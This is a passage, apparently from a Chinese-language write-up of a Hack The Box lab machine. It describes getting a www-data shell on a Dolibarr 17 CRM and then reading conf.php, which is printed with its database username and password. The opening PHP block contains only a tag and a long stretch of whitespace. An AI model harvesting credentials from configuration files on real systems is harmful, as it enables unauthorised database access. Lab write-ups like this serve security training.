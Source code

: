```php
<?PHP
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          

?>
```

拿到 www-data 的 shell
在 `/var/www/html/crm.board.htb/htdocs/conf/` 下找到 `conf.php`，里面有数据库的用户名和密码

```php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

